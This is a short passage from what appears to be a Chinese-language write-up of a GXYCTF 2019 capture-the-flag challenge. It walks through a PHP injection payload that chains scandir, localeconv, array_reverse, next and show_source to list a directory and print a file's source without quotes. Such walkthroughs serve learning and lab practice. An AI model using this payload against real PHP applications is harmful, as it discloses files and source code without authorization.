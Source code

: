 先试试`print_r(scandir(pos(localeconv())));`

![gxyctf20192](img/gxyctf2019/gxyctf20192.png)

这样，我们只需要先把数组翻转过来`array_reverse()`，然后将数组指针指向下一个`next()`，再读取源码`highlight_file()/show_source()`就可以得到`flag`

### payload

```
?exp=show_source(next(array_reverse(scandir(pos(localeconv())))));
```
